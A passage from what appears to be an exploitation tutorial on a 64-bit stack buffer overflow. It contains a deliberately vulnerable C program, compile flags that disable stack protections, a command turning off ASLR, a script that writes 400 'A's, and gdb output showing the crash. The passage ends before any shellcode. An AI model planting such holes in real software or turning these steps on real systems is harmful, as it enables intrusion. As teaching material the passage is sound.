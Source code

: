 ```c
/* Compile: gcc -fno-stack-protector -z execstack classic.c -o classic */
/* Disable ASLR: echo 0 > /proc/sys/kernel/randomize_va_space           */ 

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}
```

You can also grab the precompiled binary [here](https://gist.github.com/superkojiman/595524f6b96c79380568). 

There's an obvious buffer overflow in the vuln() function when read() can copy up to 400 bytes into an 80 byte buffer. So technically if we pass 400 bytes in, we should overflow the buffer and overwrite RIP with our payload right? Let's create an exploit containing the following:

```python
#!/usr/bin/env python
buf = ""
buf += "A"*400

f = open("in.txt", "w")
f.write(buf)
```

This script will create a file called in.txt containing 400 "A"s. We'll load classic into gdb and redirect the contents of in.txt into it and see if we can overwrite RIP:

```text
gdb-peda$ r < in.txt
Try to exec /bin/sh
Read 400 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
No shell for you :(

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7b015a0 (<__write_nocancel+7>:  cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd5a00 --> 0x0
RSI: 0x7ffff7ff5000 ("No shell for you :(\nis ", 'A' <repeats 92 times>"\220, \001\n")
RDI: 0x1
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe508 ('A' <repeats 200 times>...)
RIP: 0x40060f (<vuln+73>:   ret)
R8 : 0x283a20756f792072 ('r you :(')
R9 : 0x4141414141414141 ('AAAAAAAA')
R10: 0x7fffffffe260 --> 0x0
R11: 0x246
R12: 0x4004d0 (<_start>:    xor    ebp,ebp)
R13: 0x7fffffffe600 ('A' <repeats 48 times>, "|\350\377\377\377\177")
R14: 0x0
```